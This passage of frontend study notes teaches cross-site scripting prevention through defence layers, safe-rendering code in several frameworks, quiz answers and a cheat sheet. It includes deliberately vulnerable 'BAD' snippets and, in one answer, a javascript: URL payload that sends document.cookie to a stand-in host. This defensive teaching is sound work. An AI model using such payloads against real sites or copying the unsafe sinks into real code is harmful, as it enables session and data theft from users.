

| Layer | What it buys you | What it does **not** do |
|---|---|---|
| **Strict CSP** (nonce/hash + `'strict-dynamic'`, no `'unsafe-inline'`) | Injected `<script>` and inline handlers don't execute | Doesn't stop HTML injection (fake forms, phishing markup) or data-only attacks |
| **`HttpOnly` cookies** | Script can't **read** the session cookie | Script can still **use** it — `fetch('/api/transfer', { credentials: 'include' })` works from the XSS |
| **Tokens in memory instead of localStorage** | Token isn't trivially readable from storage after a reload | Running XSS can still intercept calls or read in-memory state — see [Secure Token Storage](./secure-token-storage.md) |
| **Sandbox domain for uploads** (e.g. `usercontent-example.net`) | Uploaded HTML/SVG runs in a different origin with no cookies of yours | Must be a different **site** (not a subdomain) to escape same-site cookie scope |
| **`X-Content-Type-Options: nosniff`** | Stops browsers from treating a `text/plain` upload as HTML or script | — |
| **Re-authentication / step-up** for email, password, payouts | XSS can't silently take over the account | — |

> **XSS beats CSRF defences.** Same-origin script can read CSRF tokens from the DOM and sends `Origin: your-site`, so [CSRF Protection](./csrf-protection.md) assumes you have **no** XSS.

---

### Section 12: Finding XSS — Review, Lint, Test

| Technique | Tooling examples | Catches |
|---|---|---|
| **Lint escape hatches** | `react/no-danger` (eslint-plugin-react), `vue/no-v-html` (eslint-plugin-vue), Mozilla's `eslint-plugin-no-unsanitized`, `svelte/no-at-html-tags` | New raw-HTML sinks in PRs |
| **Static analysis (taint tracking)** | CodeQL, Semgrep rules | Source-to-sink flows across files |
| **Trusted Types report-only** | `Content-Security-Policy-Report-Only: require-trusted-types-for 'script'` | Every string reaching a sink at runtime, including in dependencies |
| **DAST / manual testing** | OWASP ZAP, Burp Suite, DOM Invader (Burp's browser) | Reflected and DOM XSS in running apps |
| **Unit tests with payloads** | Render components with ``, `javascript:` URLs, `</script>` strings | Regressions in your own components |
| **Bug bounty / pentests** | — | Bugs your process missed |

A useful polyglot-style test string for text fields: `'">` — if an alert shows (or, safer, if the markup appears in the DOM as elements instead of text), that field is vulnerable.

---

## System Design Angle

How XSS prevention shows up in a frontend architecture review:



**Decisions to state explicitly in a design doc or interview:**

| Decision | Recommended default | Trade-off |
|---|---|---|
| Rich text format | Structured JSON (ProseMirror/Lexical/Slate/Portable Text) rendered to components | Needs a renderer per platform; avoids HTML parsing entirely |
| Where to sanitize | Client, right before insertion (also server-side if other consumers render it) | Server-only sanitizing risks parser differentials and mXSS |
| Raw-HTML sinks | **One** audited component, lint-ban everywhere else | Slight friction for teams |
| Session storage | `HttpOnly; Secure; SameSite=Lax` cookie (BFF pattern) | Needs CSRF protection and same-site API topology |
| Uploads | Separate registrable domain, `Content-Disposition: attachment` for active types | Extra domain and CDN config |
| CSP | Nonce-based strict CSP + Trusted Types, rolled out report-only first | Needs nonce plumbing in SSR, breaks some third-party scripts |
| Third-party scripts | Minimal, loaded via tag manager with review, SRI where static | A compromised third party is XSS by definition |

---

## Real-World Examples

**Example 1 — React comment body (BAD → GOOD):**
```tsx
import DOMPurify from 'dompurify';

type Comment = { id: string; author: string; bodyHtml: string };

// ❌ BAD: stored XSS — any comment can run script for every viewer
export function CommentBad({ c }: { c: Comment }) {
  return <div dangerouslySetInnerHTML={{ __html: c.bodyHtml }} />;
}

// ✅ GOOD (plain text is enough): JSX escapes it
export function CommentText({ c }: { c: { author: string; body: string } }) {
  return (
    <p>
      <strong>{c.author}</strong>: {c.body}
    </p>
  );
}

// ✅ GOOD (formatted HTML needed): sanitize right before insertion
DOMPurify.addHook('afterSanitizeAttributes', (node) => {
  if (node.tagName === 'A') {
    node.setAttribute('rel', 'noopener noreferrer nofollow ugc');
    node.setAttribute('target', '_blank');
  }
});

export function RichComment({ c }: { c: Comment }) {
  const clean = DOMPurify.sanitize(c.bodyHtml, {
    USE_PROFILES: { html: true },
    FORBID_TAGS: ['form', 'input', 'button', 'textarea', 'select', 'style'], // kept by DOMPurify's default profile
    FORBID_ATTR: ['style'],
  });
  return <div className="prose" dangerouslySetInnerHTML={{ __html: clean }} />;
}
```

**Example 2 — Safe URL helper (TypeScript):**
```typescript
const ALLOWED_PROTOCOLS = new Set(['https:', 'http:', 'mailto:']);

/** Returns a safe absolute URL string, or null if the input must not be used. */
export function safeUrl(input: string, { sameOrigin = false } = {}): string | null {
  let url: URL;
  try {
    url = new URL(input, window.location.origin); // same normalization the browser uses
  } catch {
    return null;
  }
  if (!ALLOWED_PROTOCOLS.has(url.protocol)) return null;          // blocks javascript:, data:, vbscript:
  if (sameOrigin && url.origin !== window.location.origin) return null; // blocks open redirects
  return url.href;
}

// Usage in React
function ProfileLink({ website }: { website: string }) {
  const href = safeUrl(website);
  return href ? <a href={href} rel="noopener noreferrer nofollow">{website}</a> : <span>{website}</span>;
}

// Usage after login
const next = safeUrl(new URLSearchParams(location.search).get('next') ?? '/', { sameOrigin: true }) ?? '/';
```

**Example 3 — DOM XSS in a hash-based tab widget (BAD → GOOD):**
```javascript
// ❌ BAD: location.hash is attacker-controlled and never reaches the server
const tab = decodeURIComponent(location.hash.slice(1));
document.querySelector('#title').innerHTML = `Showing: ${tab}`;

// ✅ GOOD: allow-list the value and write text, not HTML
const TABS = new Set(['overview', 'pricing', 'reviews']);
const requested = decodeURIComponent(location.hash.slice(1));
const active = TABS.has(requested) ? requested : 'overview';
document.querySelector('#title').textContent = `Showing: ${active}`;
```

**Example 4 — Trusted Types policy wrapping DOMPurify, with Sanitizer API fallback:**
```typescript
import DOMPurify from 'dompurify';

// Created once at startup. CSP: require-trusted-types-for 'script'; trusted-types app-html dompurify
const policy =
  window.trustedTypes?.createPolicy('app-html', {
    createHTML: (dirty: string) => DOMPurify.sanitize(dirty, { USE_PROFILES: { html: true } }),
  }) ?? null;

export function setSafeHTML(el: Element, dirty: string): void {
  // Prefer the built-in Sanitizer API where it exists (Chromium, Firefox)
  if ('setHTML' in el && typeof (el as any).setHTML === 'function') {
    (el as any).setHTML(dirty); // default config strips script-executing content
    return;
  }
  if (policy) {
    el.innerHTML = policy.createHTML(dirty) as unknown as string; // TrustedHTML accepted by the sink
    return;
  }
  el.innerHTML = DOMPurify.sanitize(dirty, { USE_PROFILES: { html: true } }); // older browsers
}
```

**Example 5 — The same escape hatches in Vue, Angular and Svelte:**
```html
<!-- Vue: {{ }} is escaped; v-html is not -->
<p>{{ comment.body }}</p>
<div v-html="sanitize(comment.bodyHtml)"></div>   <!-- sanitize = DOMPurify.sanitize -->
<a :href="safeUrl(user.website) ?? undefined">{{ user.website }}</a>

<!-- Svelte: {value} is escaped; {@html} is not -->
<p>{comment.body}</p>
<div>{@html DOMPurify.sanitize(comment.bodyHtml)}</div>
```

```typescript
// Angular: [innerHTML] is sanitized automatically; bypassSecurityTrust* turns that off
import { Component, inject, input } from '@angular/core';
import { DomSanitizer, SafeHtml } from '@angular/platform-browser';

@Component({
  selector: 'app-comment',
  template: `<div [innerHTML]="html()"></div>`, // Angular strips scripts and handlers (logs a warning)
})
export class CommentComponent {
  html = input.required<string>();
  private sanitizer = inject(DomSanitizer);

  // ❌ Only for markup YOU authored, never for user content:
  trusted(markup: string): SafeHtml {
    return this.sanitizer.bypassSecurityTrustHtml(markup);
  }
}
```

**Example 6 — Serving user uploads safely (Express):**
```javascript
import express from 'express';

const uploads = express(); // runs on https://usercontent-example.net — a different SITE

uploads.use((req, res, next) => {
  res.set({
    'X-Content-Type-Options': 'nosniff',
    // Even if HTML/SVG is opened directly, scripts are blocked and it gets an opaque origin
    'Content-Security-Policy': "default-src 'none'; img-src 'self'; style-src 'unsafe-inline'; sandbox",
  });
  next();
});

uploads.get('/files/:id', async (req, res) => {
  const file = await getFile(req.params.id);
  const inlineSafe = ['image/png', 'image/jpeg', 'image/webp', 'image/avif'].includes(file.mime);
  res.type(file.mime);
  // Active formats (SVG, HTML, XML, PDF) download instead of rendering
  res.set('Content-Disposition', inlineSafe ? 'inline' : `attachment; filename="${file.safeName}"`);
  res.send(file.buffer);
});
```

**Example 7 — Lint rules that keep escape hatches rare:**
```json
{
  "plugins": ["react", "no-unsanitized"],
  "rules": {
    "react/no-danger": "error",
    "no-unsanitized/property": "error",
    "no-unsanitized/method": "error",
    "no-implied-eval": "error",
    "no-new-func": "error"
  },
  "overrides": [
    { "files": ["src/components/RichText.tsx"], "rules": { "react/no-danger": "off" } }
  ]
}
```

---

## Key Points Summary

| Concept | One-Line Explanation |
|---|---|
| **XSS** | Attacker input is interpreted as code in your origin — it acts with the user's full privileges |
| **Reflected XSS** | Server echoes request data into HTML unencoded; delivered via a crafted link |
| **Stored XSS** | Saved payload rendered as HTML for every viewer — admins included |
| **DOM XSS** | Client JS moves a source (URL, `postMessage`, storage) into a sink (`innerHTML`, `eval`, `href`) |
| **Output encoding** | Encode for the exact context: HTML body, attribute, URL, JS, CSS each differ |
| **Encode on output** | Store raw data; escaping before storage corrupts it and isn't reliable |
| **Framework escaping** | Text interpolation is safe; `dangerouslySetInnerHTML`, `v-html`, `{@html}`, bypass APIs are not |
| **URL validation** | Parse with `new URL()` and allow-list `https:`/`http:`/`mailto:`; encoding can't stop `javascript:` |
| **Sanitizing** | Allow-list parser (DOMPurify, `setHTML`) for HTML you must render; sanitize late, insert directly |
| **mXSS** | Sanitized HTML can mutate when re-parsed — don't transform sanitizer output |
| **Trusted Types** | Sinks reject plain strings; only named policies can create HTML/script values |
| **SSR state** | Escape `<` as `\u003c` in inline JSON or use a `type="application/json"` script |
| **Defence in depth** | CSP, HttpOnly cookies, upload sandbox domain, nosniff, re-auth limit the damage |
| **X-XSS-Protection** | Deprecated; browser XSS filters were removed — send `0` or omit it |

---

## Test Your Understanding

**Q1 (Basic):**
What's the difference between reflected, stored and DOM-based XSS? For each, name who inserts the payload into the page.

<details>
<summary>Answer</summary>

- **Reflected:** the payload is in the **current request** (e.g. a query parameter) and the **server** copies it into the HTML response. It needs a victim to open a crafted link.
- **Stored:** the payload is **saved** (comment, profile, upload) and rendered as HTML for **every** viewer later. The inserter is whichever server template or client component renders the stored value unsafely.
- **DOM-based:** the payload comes from a **browser-side source** (`location.hash`, `postMessage`, storage) and **your client-side JavaScript** writes it into a sink. The server may never see it (fragments aren't sent), so server-side filtering can't help.

The distinction matters because the fix lives in different places: server templates, client rendering components, or client data flow.
</details>

**Q2 (Application):**
Your React app shows user bios with `{user.bio}` and links with `<a href={user.website}>`. A security review flags the second one but not the first. Why?

<details>
<summary>Answer</summary>

`{user.bio}` is a **text child**: React escapes it, so `<script>` is shown literally. The `href` attribute value is also escaped — but escaping only stops the value from breaking **out** of the attribute. A value like `javascript:fetch('//evil.example?c='+document.cookie)` has nothing to escape, and clicking the link runs it in your origin. React 16.9+ warns about `javascript:` URLs and React 19 blocks them in the attributes it renders, but you shouldn't depend on framework version behaviour (and Vue, Svelte, Solid don't check at all). Fix: parse with `new URL()` and allow-list protocols (`https:`, `http:`, `mailto:`) before rendering the link (Example 2).
</details>

**Q3 (Tricky):**
A teammate proposes: "Let's HTML-escape every string before saving it to the database. Then we're safe from XSS everywhere." What's wrong with this?

<details>
<summary>Answer</summary>

1. **Wrong context:** HTML-entity encoding protects the HTML body context only. The same value used in a URL attribute (`javascript:` has no characters to escape), inside a script block, a CSS value or an event handler is still exploitable.
2. **Double-encoding:** frameworks escape on output too, so users see `&lt;3` and `O&#x27;Brien`. Teams then "fix" it with `dangerouslySetInnerHTML` or `v-html`, re-opening the hole.
3. **Other consumers break:** mobile apps, emails, PDFs, search indexes and exports receive mangled data.
4. **Legacy data and other writers** (imports, admin tools, partner APIs) bypass the escaping step.

The rule is **store raw, encode on output for the specific context**, sanitize HTML only where you deliberately render HTML.
</details>

**Q4 (Tricky):**
You sanitize Markdown-generated HTML on the **server** with a sanitizer library, store the result, and the client then runs a small regex to turn `:emoji:` codes into `` tags before setting `innerHTML`. A researcher still gets script execution. How is that possible, and what's the fix?

<details>
<summary>Answer</summary>

Two problems:
- **Post-sanitization transformation:** the regex runs **after** sanitizing and builds HTML from text inside the sanitized output. Text that was harmless (e.g. inside an attribute or a text node) can be turned into markup — the sanitizer's guarantees no longer hold.
- **Parser differential / mXSS:** the server sanitizer's parser may not interpret malformed or nested markup (SVG/MathML namespaces, `<noscript>`, comments) the same way the browser does, so markup that looks safe on the server mutates into something active when the browser parses it.

Fix: do all transformations **first** (Markdown → HTML → emoji), then **sanitize on the client right before insertion** with DOMPurify or `setHTML()`, and insert the result directly. Add Trusted Types so any future unsanitized path throws, and a strict CSP so a bypass doesn't execute inline script.
</details>

**Q5 (Application):**
Your session uses an `HttpOnly` cookie, so a colleague says "XSS can't steal sessions, so it's low severity for us." Do you agree?

<details>
<summary>Answer</summary>

Only partly. `HttpOnly` stops script from **reading** the cookie, so the attacker can't take the session to their own machine. But XSS runs **inside the victim's browser in your origin**, so it can:
- call your APIs with `credentials: 'include'` — the cookie is attached automatically;
- read CSRF tokens from the page and pass any `Origin`/`Sec-Fetch-Site` check (requests are same-origin);
- change the account email or password, export data, make purchases;
- show a fake "session expired" login form to capture the password.

So XSS is still critical. `HttpOnly` reduces impact (no offline session theft) — pair it with strict CSP, Trusted Types and **re-authentication** for sensitive actions.
</details>

**Q6 (System design):**
You're designing a community platform with rich-text posts, profile pages with custom links, image and SVG avatar uploads, and an internal moderation dashboard. Outline the XSS architecture.

<details>
<summary>Answer</summary>

- **Content format:** store posts as **structured rich-text JSON** from the editor (ProseMirror/Lexical/Portable Text), render it to components; no HTML parsing on the read path. If HTML import is needed, sanitize it into that structure.
- **One raw-HTML component** (if any) that uses `setHTML()` / DOMPurify behind a **Trusted Types policy**; lint rules ban other sinks.
- **Links:** `safeUrl()` with a protocol allow-list on write (reject) and on render (defence in depth), plus `rel="noopener noreferrer nofollow ugc"`.
- **Uploads:** serve from a **separate registrable domain** with `nosniff`, a `sandbox` CSP, and `Content-Disposition: attachment` for SVG/HTML — or rasterize SVG avatars to PNG on upload. Display via ``, which never runs SVG scripts.
- **Moderation dashboard:** treat it as the **highest-value target** (blind XSS) — same rendering rules, its own strict CSP, separate origin, short sessions, re-auth for bans/deletes.
- **Headers:** nonce-based strict CSP + `require-trusted-types-for 'script'`, rolled out in report-only first; `HttpOnly; Secure; SameSite=Lax` session cookies.
- **Process:** CodeQL/Semgrep taint rules in CI, payload unit tests for the renderer, bug bounty.
</details>

---

## Cheat Sheet

**Key Definitions:**
- **XSS:** untrusted data interpreted as HTML/JS in your origin.
- **Source:** where attacker data enters client code (`location`, `postMessage`, storage, API data).
- **Sink:** an API that parses or executes its input (`innerHTML`, `eval`, `href`, `script.src`).
- **Output encoding:** converting characters so a parser treats them as data in a specific context.
- **Sanitizing:** parsing HTML and keeping only allow-listed elements and attributes.
- **mXSS:** sanitized markup that becomes dangerous after being re-serialized and re-parsed.
- **Trusted Types:** CSP-enforced typed values required at DOM XSS sinks.
- **Blind XSS:** stored payload that fires in a system the attacker can't see (admin, support tools).

**Quick Reference:**
```text
Text                      → framework interpolation / textContent           (never innerHTML)
Attribute                 → framework binding, always quoted                 (never let input pick the attribute name)
URL (href, src, action)   → new URL(x, origin) + protocol allow-list         (https:, http:, mailto:)
Redirect after login      → same check + url.origin === location.origin
Rich HTML                 → DOMPurify / el.setHTML(), right before insert, then insert directly
Untrusted full documents  → <iframe sandbox> without allow-same-origin, separate origin
Inline JSON state         → JSON.stringify(x).replace(/</g, '\\u003c') or type="application/json"
Strings as code           → never: eval, new Function, setTimeout('...')
postMessage               → check event.origin, validate shape, render as text
Uploads                   → separate site, nosniff, sandbox CSP, attachment for SVG/HTML
Headers                   → strict CSP (nonce + strict-dynamic) + require-trusted-types-for 'script'
Cookies                   → HttpOnly; Secure; SameSite=Lax  (limits, doesn't prevent, damage)
X-XSS-Protection          → deprecated: omit or send 0
```

**Common Mistakes to Avoid:**

| Mistake | Why Wrong | Fix |
|---|---|---|
| `dangerouslySetInnerHTML` / `v-html` / `{@html}` with API data | No sanitizing — stored XSS | Render text, or sanitize right before insertion |
| Escaping before storing | Wrong context elsewhere, double-encoding, breaks other clients | Store raw; encode on output |
| Trusting `href` bindings | Escaping doesn't block `javascript:` | `new URL()` + protocol allow-list |
| Regex-based URL or HTML filtering | Browsers normalize whitespace, case, entities; regexes miss variants | Use real parsers (`URL`, DOMPurify, `setHTML`) |
| Modifying HTML after sanitizing | Re-introduces markup; mXSS | Transform first, sanitize last, insert directly |
| Interpolating into `<script>` or `onclick` | JS/HTML double context, `</script>` breakout | `data-*` attributes or safely serialized JSON |
| `postMessage` handler without origin check | Any site can drive your sink | Check `event.origin`, validate data |
| Serving SVG/HTML uploads from your main origin | Opened directly, it runs as you | Separate site, `attachment`, `nosniff`, sandbox CSP |
| Relying on `HttpOnly` as "XSS protection" | XSS acts in-session without reading the cookie | Prevent XSS; add CSP, re-auth |
| Relying on a WAF or `X-XSS-Protection` | WAFs miss DOM XSS and encodings; auditors were removed | Fix the code; CSP + Trusted Types |
| Spreading user objects into JSX props | Attacker controls `dangerouslySetInnerHTML`, `href` | Pass explicit fields |
| Compiling user content as a template | Template expressions become code | Never mount user HTML as a Vue/Angular template |

---

## References & Further Reading

**Core docs**
- MDN: [Cross-site scripting (XSS)](https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/XSS)
- MDN: [Trusted Types API](https://developer.mozilla.org/en-US/docs/Web/API/Trusted_Types_API)
- MDN: [HTML Sanitizer API](https://developer.mozilla.org/en-US/docs/Web/API/HTML_Sanitizer_API) · [`Element.setHTML()`](https://developer.mozilla.org/en-US/docs/Web/API/Element/setHTML)
- MDN: [`X-XSS-Protection` (deprecated)](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/X-XSS-Protection)
- MDN: [`Window.postMessage()` — security concerns](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage#security_concerns)
- web.dev: [Prevent DOM-based cross-site scripting vulnerabilities with Trusted Types](https://web.dev/articles/trusted-types)
- web.dev: [Mitigate cross-site scripting (XSS) with a strict Content Security Policy](https://web.dev/articles/strict-csp)

**OWASP**
- [Cross Site Scripting Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [DOM based XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [Types of XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)

**Framework docs**
- React: [`dangerouslySetInnerHTML`](https://react.dev/reference/react-dom/components/common#dangerously-setting-the-inner-html)
- Vue: [Security](https://vuejs.org/guide/best-practices/security.html)
- Angular: [Security (sanitization, Trusted Types)](https://angular.dev/best-practices/security)
- Svelte: [`{@html ...}`](https://svelte.dev/docs/svelte/@html)
- Next.js: [JSON-LD guide](https://nextjs.org/docs/app/guides/json-ld)

**Specs & libraries**
- W3C: [Trusted Types](https://w3c.github.io/trusted-types/dist/spec/)
- WICG: [HTML Sanitizer API](https://wicg.github.io/sanitizer-api/)
- [DOMPurify (Cure53)](https://github.com/cure53/DOMPurify)
- Mozilla: [eslint-plugin-no-unsanitized](https://github.com/mozilla/eslint-plugin-no-unsanitized)

**Deep dives**
- PortSwigger Web Security Academy: [Cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) · [DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)

---

> **Previous Topic:** [Date, Number & Currency Formatting](../06-accessibility-and-i18n/date-number-and-currency-formatting.md)
> — Locale-aware formatting with the `Intl` APIs

> **Next Topic:** [Content Security Policy (CSP)](./content-security-policy-csp.md)
> — The header that stops injected scripts from running even when an XSS bug slips through

*Saved on: 2026-11-06 | Repo: Frontend System Design Learning Notes*
